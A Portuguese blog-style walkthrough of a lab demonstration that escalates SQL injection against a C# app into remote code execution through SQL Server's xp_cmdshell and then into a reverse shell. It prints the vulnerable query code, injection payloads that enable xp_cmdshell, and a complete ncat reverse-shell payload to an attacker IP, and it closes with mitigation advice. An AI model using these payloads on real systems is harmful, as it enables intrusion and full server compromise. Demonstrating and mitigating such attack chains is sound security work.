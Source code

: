 ```yaml
---
title: Comprometendo um servidor através de um simples SQL Injection
date: 2022-11-18 17:48:14
tags: ["hacking", "SQLi"]
---
```


## Sumário
- [Introdução](#Introducao)
- [Premissas](#Premissas)
- [Passo 1: Aplicação vulnerável à SQLi](#Passo-1-Aplicacao-vulneravel-a-SQLi)
- [Passo 2: Funcionalidade CmdShell do SQL Server](#Passo-2-Funcionalidade-CmdShell-do-SQL-Server)
- [Passo 3: Juntando SQLi com o CmdShell](#Passo-3-Juntando-SQLi-com-o-CmdShell)
- [Passo 4: Comprometendo o servidor com Reverse Shell](#Passo-4-Comprometendo-o-servidor-com-Reverse-Shell)
- [Conclusão](#Conclusao)

## Introdução

O objetivo é demonstrar que nas condições certas, é possível escalar o impacto de um simples [SQLi (SQL Injection)](https://owasp.org/www-community/attacks/SQL_Injection) para um [RCE (Remote Code Execution)](https://www.geeksforgeeks.org/what-is-remote-code-execution-rce/), que por sua vez evoluir para um [Reverse Shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/), entregando acesso completo à rede interna de uma empresa a partir do servidor do banco de dados.

Os impactos conhecidos do **SQLi** já são suficientemente desastrosos, porém como nada é tão ruim que não possa piorar, também é possível comprometer o servidor associado à aplicação.

## Premissas

- Aplicação vulnerável a SQLi, qualquer linguagem ou tecnologia;
- Banco de dados SQL Server;
- Usuário da aplicação conectado ao banco de dados com privilégios de alteração de configurações ***ou*** com a opção **xp_cmdshell** pré-habilitada;

## Passo 1: Aplicação vulnerável à SQLi

Nesta demonstração iniciei uma aplicação web simples,  vulnerável à SQLi. A função é uma busca pelo nome de uma pessoa em uma tabela de usuários.

> ![Sistema base](/imgs/sqli_to_rce/sistema_base.png)

Código vulnerável:
```csharp
var command = new SqlCommand("Select Nome from Usuarios where Nome = '" + input + "'", conn);

var result = new StringBuilder();

using (var reader = command.ExecuteReader())
{
	while (reader.Read())
	{
		result.AppendLine(reader[0].ToString());
	}
}
```

Para testar o conceito, podemos utilizar o *payload* básico ```' OR 1=1;--``` para demonstrar a vulnerabilidade:

> Inserindo o payload  e resultado obtido
![Sistema base com sqli](/imgs/sqli_to_rce/sistema_base_com_sqli.png)

## Passo 2: Funcionalidade CmdShell do SQL Server

A funcionalidade **xp_cmdshell** é uma opção avançada, e extremamente poderosa (portanto perigosa), que o SQL Server possui. A opção executa um comando de Windows através de SQL, retornando o resultado através de linhas. [Clique aqui](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) para a documentação oficial.

Por exemplo, através da instância podemos executar comandos para listar os arquivos ```.exe``` do diretório:
```cmd
EXEC xp_cmdshell 'dir *.exe';
```
> ![exemplo cmdshell](/imgs/sqli_to_rce/shell_1.png)

Ou saber as informações da instância:
```
EXEC xp_cmdshell 'whoami';
```
> ![exemplo cmdshell](/imgs/sqli_to_rce/shell_2.png)

Estes mesmos comandos podem ser executados diretamente da aplicação que está conectada ao banco de dados.

Para que esta opção possa ser utilizada, é necessário ativar as configurações avançadas e também a opção *xp_cmdshell*, conforme abaixo:
```cmd
EXEC sp_configure 'show advanced options',1;RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE
```

Por padrão, estas opção estão com o valor ```0```, indicando a impossibilidade da execução direta. Porém, caso o usuário conectado ao banco de dados possua permissão para tal (o famoso **'sa'** *full access*), basta executar os comandos referenciados acima previamente, para ativação da funcionalidade.


## Passo 3: Juntando SQLi com o CmdShell

Agora que possuímos os elementos necessários, basta um pouco de criatividade e insistência para explorar os caminhos necessários para causar um grande impacto.

Partindo do princípio que o SQL Server não possui as opções avançadas ligadas, podemos então explorar o SQLi para habilitar as condições necessárias:

*Payload* executadas na aplicação:
```
> ';EXEC sp_configure 'show advanced options',1;RECONFIGURE--
> ';EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE--
```

A partir desse momento, já é possível executar qualquer comando diretamente no servidor em que se encontra o banco de dados, caracterizando o **RCE**.

Tomamos como exemplo a manipulação de uma arquivo que está na pasta *temp*:
> ![comando move](/imgs/sqli_to_rce/move_1.png)

Então, executando um simples comando **'move'** para provar o conceito, com o *payload* pela aplicação *web*
```
';EXEC xp_cmdshell 'move c:\temp\teste.txt c:\temp\teste2.txt'--
```
> ![comando move](/imgs/sqli_to_rce/move_2.png)

Se parássemos aqui, já teríamos consequências suficientes para interrupção de toda uma operação, considerando possibilidades como:
* Exclusão de arquivos
* Manipulação de informações
* Causa de indisponibilidade
* Quebra de confidencialidade e integridade das informações
* ... e por aí vai

## Passo 4: Comprometendo o servidor com Reverse Shell

Agora com o **RCE** confirmado, é possível evoluir para o *Reverse Shell*, onde através do servidor impactado entregaremos o acesso direto e completo à máquina do atacante, dispensando a aplicação como meio.

Para demonstração desta parte, configurei um servidor virtual com *Kali Linux*, simulando a máquina do atacante. Nesta máquina, ativado um *listener* para a porta ```3000``` através do *netcat*

```cmd
nc -nlp 3000 -v
```
> ![netcat no kali](/imgs/sqli_to_rce/kali_1.png)

Voltando à exploração RCE, basta prepararmos um *payload* para que o servidor da vítima se comunique com o servidor do atacante, entregando através do IP e o servidor pré-determinado, o *command* do Windows (cmd.exe).

Comando a ser executado (```192.168.101.125``` é o endereço IP do servidor do atacante):
```cmd
ncat 192.168.101.125 3000 -e c:\windows\system32\cmd.exe
```

Como o comando será executado no contexto do usuário do banco de dados, é preciso passar o caminho completo do acionamento do netcat:
```cmd
where ncat
> "C:\Program Files (x86)\Nmap\ncat.exe"
```

Então, podemos preparar o *payload* para enviar através da aplicação;
```
';EXEC xp_cmdshell '"C:\Program Files (x86)\Nmap\ncat.exe" 192.168.101.125 3000 -e c:\windows\system32\cmd.exe'--
```
> ![payload do reverse shell](/imgs/sqli_to_rce/payload_shell_cmd.png)

Se voltarmos para a visão da máquina do atacante, é possível verificar que a conexão foi realizada. A partir deste momento, é como se o atacante estivesse fisicamente no servidor da vítima executando qualquer comando que desejasse pela linha de comando do Windows.
> ![reverse shell concluído](/imgs/sqli_to_rce/kali_acesso_concedido.png)
> ![reverse shell concluído](/imgs/sqli_to_rce/kali_dir_completo.png)

## Conclusão
Com o comprometimento completo do servidor, a vítima fica *à mercê* do atacante com o tipo de estrago ou extorsão a ser realizado. Caso este servidor não esteja uma rede [DMZ](https://www.fortinet.com/br/resources/cyberglossary/what-is-dmz), a escalação pode prosseguir com navegação lateral pelos servidores e estações de uma organização, causando ainda mais estragos.

Algumas sugestões de possíveis impactos:
- Exclusão total dos arquivos e dados do servidor ou banco de dados
- Instalação de Ransonware's
- Mineração criptomoeda
- Nó para atividades criminal
- Extração e vazamento de dados
- Monitoramento silencioso

Não basta atentarmos que as aplicações não estejam vulneráveis à SQLi, para uma melhor eficiência nas mitigações de segurança, é preciso trabalhar para que o *attack chain* seja quebrado, ou seja, impedir um possível ataque evolua em vários pontos.

Isto quer dizer que qualquer um desses casos abaixo iria mitigar a exploração e os impactos sofridos:

- Não utilização do usuário 'sa' ou com altos privilégios de alteração de configurações do banco de dados, como usuário que a aplicação se conecta.
- Isolamento do servidor do database do resto da estrutura - DMZ.
- Compartilhamento da instância do banco de dados com outras aplicações. O comprometimento pode se originar daquela antiga aplicação esquecida, que ninguém usa.

As recomendações não se limitam a esta pequena lista, mas servem para instigar que todos os processos e estruturas sejam pesadas para mitigar a evolução de uma vulnerabilidade encontrada na ponta.

O foco demonstrado aqui foi com o banco de dados *SQL Server*, porém podem existir funções equivalentes em outros *databases*, aqui não explorado.


